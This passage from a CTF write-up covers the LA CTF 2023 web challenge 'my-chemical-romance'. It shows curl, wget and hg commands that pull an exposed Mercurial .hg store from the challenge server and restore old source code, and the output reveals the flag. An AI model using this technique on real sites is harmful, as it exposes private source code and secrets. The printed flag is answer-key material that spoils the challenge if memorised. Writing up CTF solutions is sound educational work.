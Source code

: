 **However:**
```shell
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/my-chemical-romance/.hg/store/data)-[2023.02.12|21:00:08(HKT)]
└> curl https://my-chemical-romance.lac.tf/.hg/store/data/gerard_way2001.py.i
<!DOCTYPE html>
<html>
    <head>
        <title>My Favorite Band: My Chemical Romance</title>
        <link rel="stylesheet" href="/index.css">
    </head>
    <body>
        <div class="content">
            <h1>Error 404: Page Not Found</h1>
            <img src="/mcr-meme.jpeg">
        </div>
    </body>
</html>
```

Hmm... The `.hg/store/data/gerard_way2001.py.i` seems like doesn't exist on the web server??

## After the CTF

Now, this is a really weird quirk in Mercurial SCM.

> From this challenge's author -- bliutech:
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2023/images/Pasted%20image%2020230213172827.png)

**So the file we had to look for was `.hg/store/data/gerard__way2001.py.i`:**
```shell
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/my-chemical-romance/.hg/store/data)-[2023.02.13|17:17:44(HKT)]
└> wget https://my-chemical-romance.lac.tf/.hg/store/data/gerard__way2001.py.i
```

**That way, we can finally `checkout` to the first commit:**
```shell
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/my-chemical-romance/.hg/store/data)-[2023.02.13|17:22:21(HKT)]
└> hg checkout 2445227b04cd
file 'gerard_way2001.py' was deleted in local [working copy] but was modified in other [destination].
You can use (c)hanged version, leave (d)eleted, or leave (u)nresolved.
What do you want to do? c
updating [====================================================================================>] 2/2 01sfile 'static/index.html' was deleted in local [working copy] but was modified in other [destination].
You can use (c)hanged version, leave (d)eleted, or leave (u)nresolved.
What do you want to do? c
0 files updated, 2 files merged, 0 files removed, 0 files unresolved                                     
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/my-chemical-romance/.hg/store/data)-[2023.02.13|17:22:56(HKT)]
└> cat ../../../gerard_way2001.py 
from flask import Flask, send_from_directory, Response

app = Flask(__name__)

# FLAG: lactf{d0nT_6r1nk_m3rCur1al_fr0m_8_f1aSk}
[...]
```
